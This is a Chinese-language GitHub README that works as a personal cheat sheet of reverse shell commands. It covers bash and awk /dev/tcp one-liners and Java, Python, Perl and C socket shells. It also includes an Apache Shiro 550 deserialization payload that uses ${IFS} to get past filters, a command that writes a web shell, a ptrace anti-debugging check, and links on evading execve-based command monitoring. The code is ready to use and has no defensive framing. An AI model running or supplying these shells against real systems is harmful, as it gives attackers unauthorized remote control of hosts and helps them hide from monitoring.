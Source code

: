 # ReverseShell
自己经常使用的反弹shell命令
## bash
```
bash -c {echo,xxx}|{base64,-d}|{bash,-i}
bash -c "bash -i >& /dev/tcp/ip/port  0>&1"
bash -i 5<>/dev/tcp/host/port 0>&5 1>&5

awk 'BEGIN{s="/inet/tcp/0/ip/port";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
```
## java
```java
try{
    Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/ip/2333;cat <&5 | while read line; do $line 2>&5 >&5; done"});
}catch (IOException e){
    try{
        Runtime.getRuntime().exec(new String[]{"cmd", "/c", "calc"});
    }catch (IOException ee){
    }
}
```
### shiro 550
反弹shell
https://bkfish.gitee.io/2020/04/24/Apache-Shiro-1-2-4%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2016-4437%EF%BC%89%E5%A4%8D%E7%8E%B0%E9%81%87%E5%88%B0%E7%9A%84%E5%9D%91/


https://mp.weixin.qq.com/s/zCe_O37rdRqgN-Yvlq1FDg

```
cc2 
bash -c bash${IFS}-i${IFS}>&/dev/tcp/XXXXX/XX<&1

```
并且执行命令
https://codewhitesec.blogspot.com/2015/03/sh-or-getting-shell-environment-from.html
```bash
sh -c $@ | sh . echo `echo shell>shell.jsp`
```

## python
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("ip",4444))
os.dup2(s.fileno(),0) 
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
## perl
```
perl -e 'use Socket;$i="ip";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
## c
来自m3师傅
```c
#include <stdio.h>
#include <unistd.h>
#include <sys/wait.h>
#include <stdlib.h>


#include <sys/ptrace.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <sys/socket.h>

__attribute__((constructor)) void debugCheck()
{
    if(ptrace(PTRACE_TRACEME,0,1,0) == -1)
    {
        printf("debug found");
        exit(0);
    }
}

int main(int argc,char** argv)
{
    int status;
    printf("Main Process:%d\n",getpid());

    if(fork() == 0)
    {
        printf("Child Process:%d\n",getpid());
        struct sockaddr_in addr;
        addr.sin_family = AF_INET;
        addr.sin_addr.s_addr = inet_addr("127.0.0.1");
        addr.sin_port = htons(2333);
        int fd = socket(AF_INET,SOCK_STREAM,0);
        if(!connect(fd,(const struct sockaddr *)&addr,sizeof(addr)))
        {
            printf("connect success\n");
        }
        
        dup2(fd,0); 
        dup2(fd,1); 
        dup2(fd,2); 
        char* argv[] = {"/bin/bash",NULL};
        execve("/bin/bash",argv,'\0'); 
    }
    pid_t child_pid = wait(&status);
    printf("Child PID:%d Terminate Status:%d\n",child_pid,WEXITSTATUS(status));

}
```

## 交互式
```
python -c 'import pty;pty.spawn("/bin/bash")'
echo os.system('/bin/bash')
/bin/sh -i
```
[完全交互式Shell](https://www.jianshu.com/p/e7202cb2c3dd)


## 逃逸基于execve的命令监控的反弹shell

https://grugq.github.io/docs/ul_exec.txt

[无"命令"反弹shell-逃逸基于execve的命令监控(上)](https://mp.weixin.qq.com/s/rcPnXJrjcFeAWMnXsyJDPA)

[如何改变进程名称](https://mp.weixin.qq.com/s?__biz=MzkyMDIxMjE5MA==&mid=2247484350&idx=1&sn=14d5423fe226e9716eee2f4eaf58e62a&chksm=c197040ff6e08d19c5c2877775777054a7917db0e743c6abe1187782639e3cc3f20f02738b7d&mpshare=1&scene=23&srcid=0131L4KTJKxOsz0ATdwjU24c&sharer_sharetime=1643560116868&sharer_shareid=33a823b10ae99f33a60db621d83241cb#rd)

[反弹shell检测技术研究](https://l0n9w4y.cc/posts/19880/)

## 原理
+ [Reverse Shell 杂谈](https://mp.weixin.qq.com/s?__biz=MzA3MzU1MDQwOA==&mid=2247483909&idx=1&sn=6c7c89154552842ce27a871b7557ee0e&chksm=9f0c1d22a87b94340d71e77fe6c7c935eda1f83142faf7a43b32246b1826f8c3281fd75235e6&scene=178&cur_album_id=1465824885800009730#rd)
